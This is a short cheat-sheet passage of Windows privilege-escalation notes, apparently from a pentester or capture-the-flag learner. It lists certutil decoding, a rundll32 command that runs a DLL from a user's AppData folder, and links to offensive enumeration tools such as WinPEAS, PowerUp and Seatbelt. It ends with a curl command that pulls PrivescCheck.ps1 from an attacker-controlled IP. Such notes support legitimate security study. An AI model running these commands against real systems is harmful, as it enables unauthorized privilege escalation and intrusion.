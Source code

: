 - Decoding File with Certutil
```cmd-session
 certutil -decode encodedfile file2
```

- Run DLL : 
```cmd
rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll
```

#Windows_Tools
**Some Automated Tools**

- WinPEAS - https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS
- Windows PrivEsc Checklist - https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation
- Sherlock - https://github.com/rasta-mouse/Sherlock
- Watson - https://github.com/rasta-mouse/Watson
- PowerUp - https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
- JAWS - https://github.com/411Hall/JAWS
- Windows Exploit Suggester - https://github.com/AonCyberLabs/Windows-Exploit-Suggester
- Metasploit Local Exploit Suggester - https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/
- https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/SharpDPAPI.exe
- Seatbelt - https://github.com/GhostPack/Seatbelt
```shell
Seatbelt.exe -group=all -full
```
- SharpUp - https://github.com/GhostPack/
- Privesc Check  https://github.com/itm4n/PrivescCheck



 cmd /c "curl http://10.8.3.12:8080/PrivescCheck.ps1 > PrivescCheck.ps1 "

